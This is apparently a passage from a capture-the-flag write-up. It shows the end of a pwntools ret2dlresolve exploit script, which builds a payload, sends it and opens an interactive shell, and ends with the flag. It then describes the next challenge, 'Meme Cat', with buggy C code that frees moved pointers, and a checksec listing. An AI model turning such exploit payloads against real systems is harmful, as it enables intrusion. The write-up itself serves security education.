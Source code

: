 ```python
Rel_struct = r_offset + r_info

dlresolve = 0x401020
dlresolve_forge = Sym_struct + Rel_struct + Str_struct

payload = b"\x00"
payload += p64(0x404600)
payload += p64(dlresolve)
payload += p64(reloc_arg)
payload += p64(0x401142)
payload += dlresolve_forge

p.sendline(payload)

p.interactive() # grey{i_actually_understand_ret2dlresolve}
```

# Meme Cat

> If strcat exists why not memcat? or even memecat?? (Adapted from failed CS1010 exercise)
>
> Author: jro \
> Solves: 1

```c
void meme_cat() {

    int x, y;
    char *a = read_meme(&x);
    char *b = read_meme(&y);
    char *c = malloc((size_t)(x + y));

    for(int i = 0; i < x; i++) {
        *(c++) = *(a++);
    }
    for(int i = 0; i < y; i++) {
        *(c++) = *(b++);
    }

    puts(c);

    free(c);
    free(b);
    free(a);
}
```

```
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
